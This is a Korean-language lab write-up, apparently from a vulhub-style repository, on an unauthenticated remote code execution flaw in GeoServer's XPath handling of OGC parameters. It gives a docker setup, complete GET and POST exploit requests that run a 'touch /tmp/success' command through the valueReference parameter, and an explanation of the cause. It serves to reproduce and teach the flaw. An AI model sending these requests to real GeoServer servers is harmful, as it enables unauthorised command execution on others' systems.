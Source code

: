 # GeoServer RCE 취약점 PoC 보고서

GeoServer는 자바로 작성된 오픈소스 소프트웨어 서버로, 지리공간 데이터를 조회, 편집, 공유할 수 있는 기능을 제공합니다. 이 서버는 GIS (Geographic Information System) 데이터베이스, 웹 기반 데이터, 개인 데이터셋 등 다양한 출처의 지리공간 데이터를 배포하기 위한 유연하고 효율적인 솔루션을 목표로 설계되었습니다.

GeoServer 2.25.1, 2.24.3 및 2.23.5 이전 버전에서는, 기본 GeoServer 설치 환경에서 인증되지 않은 사용자가 여러 OGC 요청 파라미터를 통해 특수하게 조작된 입력을 전달할 경우 XPath 표현식으로 속성 이름을 안전하지 않게 평가함으로써 원격 코드 실행(RCE)이 가능하게 되는 취약점이 존재합니다.

## 참고 자료

- [GHSA-6jj6-gm7p-fcvv](https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv)
- [GHSA-w3pj-wh35-fq8w](https://github.com/geotools/geotools/security/advisories/GHSA-w3pj-wh35-fq8w)
- [TTTang Archive](https://tttang.com/archive/1771/)
- [CVE-2022-41852 by Warxim](https://github.com/Warxim/CVE-2022-41852)

## 취약 환경

GeoServer 서버 버전 2.23.2를 시작하려면 다음 명령어를 실행합니다:

```bash
docker compose up -d
```
서버가 시작된 후, 웹 브라우저에서 http://your-ip:8080/geoserver 에 접속하면 GeoServer의 기본 페이지가 표시됩니다.

## Exploit (취약점 공격 방법)
공식 취약점 공지에서는 다음과 같은 내용이 제공됩니다:

공개된 PoC (Proof of Concept)는 없으나, 이 취약점은 WFS GetFeature, WFS GetPropertyValue, WMS GetMap, WMS GetFeatureInfo, WMS GetLegendGraphic, 그리고 WPS Execute 요청을 통해 실제로 악용 가능함이 확인되었습니다.

예를 들어, 저는 GetPropertyValue 요청을 이용해 악의적인 XPath 표현식을 실행할 예정입니다. 공식 문서를 참고하면 GET 방식 PoC는 다음과 같습니다:
```bash
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
```
POST 방식 PoC는 다음과 같습니다:

```xml
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```
전형적으로 발생하는 java.lang.ClassCastException 오류 메시지가 나타날 수 있습니다.
![1.png](./1.png)
![2.png](./2.png)

보시다시피, success1, success2 파일이 모두 성공적으로 생성되었습니다.

#### 중요 사항
![3.png](./3.png)
typeNames 파라미터는 반드시 존재해야 합니다. 로그인 없이 웹 서버에 존재하는 모든 사용 가능한 타입들을 확인할 수 있습니다.
![4.png](./4.png)

- [블로그 링크](https://github.com/R00T-Kim/kr-vulhub/tree/main/CVE-2024-36041)

# 원리
### 배경: 
GeoServer는 OGC 표준 프로토콜 (예: WFS, WMS 등)을 제공하며, 내부적으로 XPath와 같은 기능을 사용해 “ValueReference”나 “typeNames” 등을 해석합니다.

### 취약점 요지:
특정 요청 파라미터 (예: valueReference)가 XPath 표현식처럼 처리되며, 동시에 Java의 exec() 함수를 호출할 수 있을 정도로 확장되어 있습니다. 정상적인 경우에는 단순 속성 (예: typeNames=sf:archsites) 만을 해석해야 하지만, GeoServer 내부 코드가 이를 안전하게 검증하지 않고 XPath 구문으로 직렬화하거나 해석함으로써 문제가 발생합니다.

### 결과:
공격자는 exec(java.lang.Runtime.getRuntime(), 'touch /tmp/success1') 같은 Java 함수 호출 구문을 삽입하여 원격 코드 실행(RCE)을 유발할 수 있습니다.

